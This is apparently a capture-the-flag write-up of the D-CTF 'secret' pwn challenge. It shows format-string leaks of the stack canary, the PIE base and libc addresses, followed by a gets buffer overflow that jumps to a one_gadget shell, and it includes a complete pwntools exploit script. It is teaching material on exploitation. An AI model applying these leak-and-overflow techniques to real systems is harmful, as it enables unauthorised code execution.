


So, this last weekend, I took part in D-CTF with a few friends from
[AFNOM](afnom.net). One of the challenges I solved was **secret** and I got a
few requests to write it up, so I decided to put it here so that everyone
could find it.

## Exploration

We're given [pwn_secret](pwn_secret) and a server that we can
netcat into.

After a brief scan using Cutter, we can quickly see the program flow:

1. Ask for a name, and echo it back out
2. Ask for a password, compare it to a goal
   - if the same, print "You entered the same string two times"
   - if different, print "Entered strings are not the same"

There's no sign of a flag anywhere in the file, so we'll have to pwn our way
to victory.

After a few glances, we can identify a few vulnerabilities.

First, a `printf` format string vulnerability using the name:



Next, a `gets` buffer overflow with the password:



Now that we've identified our possible entry points, we need to see what
protections are enabled using `checksec`:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

Tricky. We've got stack protection on all our user-defined functions as well
as the NX-bit and PIE enabled, which means we need to expect ASLR as well.

This is going to influence our exploit a lot - the canary is going to stop us
from performing a useful overflow unless we can leak it, the NX bit means
we're going to need to go for a ROP attack and the PIE means we're going to
need to leak a few addresses before we can jump anywhere useful.

## Exploitation

Let's load up our tools with a base skeleton. I'm using pwntools and gdb
peda.

```python
#!/usr/bin/env python2

from pwn import *
context(arch='amd64')

# p = remote('206.81.24.129', 1339)
p = process('./pwn_secret')
gdb.attach(p, "source /usr/share/peda/peda.py")

p.interactive()
```

Looking at our binary, we're going to want to try and leak our canary as soon
as possible so that we can overflow the saved instruction pointer properly.

We can see from the disassembly that both `main` and `secret` use the same
canary, i.e., `fs[0x28]`. So if we can leak the canary for one, we can get
the other.

With a bit of playing around in gdb, dumping the stack using `printf` and
inspecting the canary value, we can find the exact location of the canary on
the stack.

```python
p.recvline_contains('name?')
p.sendline('%15$p')
line = p.recvline()
leaks = line.split()[2:]
canary = int(leaks[0], 16)
```

This is the canary for `main`, which will be the same value as the one for
`secret`. We can now use this to properly overflow the stack and avoid the
`__stack_chk_fail`.

```python
payload = 'a' * 0x88    # padding to fill the buffer
payload += p64(canary)  # canary
payload += p64(1337)    # rbp (exact value doesn't matter)
payload += ???          # rip
p.sendline(payload)
```

The only question is... where do we jump to? Because we're running with PIE,
we don't know the location of anything in the binary at all. So, we need
another leak.

If we modify our format string leak from above, we can leak more than one
value from the stack. After a while, I noticed that while addresses from libc
tended to start with `0x7f`, addresses from our program were starting with
`0x55`. So, with a bit of playing around, I found a value on the stack that
pointed somewhere (doesn't really matter where) in our program.

Then using that leak, we can calculate the base address that the text section
of our binary is loaded in at:

```python
p.recvline_contains('name?')
p.sendline('%15$p %21$p')
line = p.recvline()
leaks = line.split()[2:]
canary = int(leaks[0], 16)
base = int(leaks[1], 16) - 0xb6d
```

Now that we have the base location, we can now jump to anywhere _within_ the
text section of our program. That's not quite enough to give us arbitrary
code exection yet, due to a lack of gadgets.

But, we can jump back to the very start of `main`! This means that we can now
keep leaking more information for us to use and eventually build up a
complete picture of where we need to jump to.

```python
payload = ...
payload += base + 0xb6d  # rip
p.sendline(payload)
```

Now we're back at the top of `main`. Now we need to try to jump to something
within libc. To do that, we'll need to know where libc is loaded, as well as
which version of libc our host system is using.

Let's leak the address of `setvbuf`:

```python
p.recvline_contains('name?')
p.sendline('%7$s    ' + p64(base + 0x202068))
line = p.recvline()
setvbuf = line.split()[2]
setvbuf = u64(setvbuf + '\00' * (8 - len(setvbuf)))
log.info('setvbuf: ' + hex(setvbuf))
```

`base + 0x202068` is the address of the `setvbuf` entry in the GOT, so
reading a string from there gets us a pointer to the location of `setvbuf` in
libc.

We can then jump back to `main` again using the same code as above:

```python
payload = ...
p.sendline(payload)
```

Then we can leak another function, this time `gets`:

```python
p.recvline_contains('name?')
p.sendline('%7$s    ' + p64(base + 0x202060))
line = p.recvline()
gets = line.split()[2]
gets = u64(gets + '\00' * (8 - len(gets)))
log.info('gets: ' + hex(gets))
```

Now we have the addresses of two functions! Now, we can switch to using the
remote service and extract the libc version.

```
[+] Opening connection to 206.81.24.129 on port 1339: Done
[*] setvbuf: 0x7f5abf3b6e70
[*] gets: 0x7f5abf3b5d80
```

Running these through a [libc database](https://github.com/niklasb/libc-database)
gets us the libc version: libc6_2.23-0ubuntu10_amd64.so.

Now we can work out the exact offset of `setvbuf` from the start of libc.

```python
libc = setvbuf - 0x6fe70
```

Now we just need somewhere in libc to jump to! Using the wonderful
[one_gadget](https://github.com/david942j/one_gadget) we can extract a call
to /bin/sh.

```
$ one_gadget ./libc6_2.23-0ubuntu10_amd64.so
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

That looks promising...

```python
target = libc + 0x45216

payload = 'a' * 0x88    # padding to fill the buffer
payload += p64(canary)  # canary
payload += p64(1337)    # rbp (exact value doesn't matter)
payload += target        # rip
p.sendline(payload)

p.interactive()
```

And we have shell!!!

```
$ ls
flag
pwn
readme
$ cat flag
DCTF{****************************************************************}
```

## Code

The final code that I used in the exploit:

```python
#!/usr/bin/env python2

from pwn import *

context(arch='amd64')

p = remote('206.81.24.129', 1339)

p.recvline_contains('name?')
p.sendline('%15$p %21$p')
line = p.recvline()
leaks = line.split()[2:]
canary = int(leaks[0], 16)
base = int(leaks[1], 16) - 0xb6d

def jump_to(destination):
    payload = 'a' * 0x88
    payload += p64(canary)
    payload += p64(1337)         # rbp
    payload += p64(destination)  # rip
    p.sendline(payload)

def leak(address):
    p.recvline_contains('name?')
    p.sendline('%7$s    ' + p64(address))
    line = p.recvline()
    leak = line.split()[2]
    leak = u64(leak + '\00' * (8 - len(leak)))
    return leak

jump_to(base + 0xb6d)
setvbuf = leak(base + 0x202068)
log.info('setvbuf: ' + hex(setvbuf))

jump_to(base + 0xb6d)
gets = leak(base + 0x202060)
log.info('gets: ' + hex(gets))

SETVBUF_OFFSET = 0x6fe70
TARGET_OFFSET = 0x45216
libc = setvbuf - SETVBUF_OFFSET
target = libc + TARGET_OFFSET

jump_to(target)
p.interactive()
```
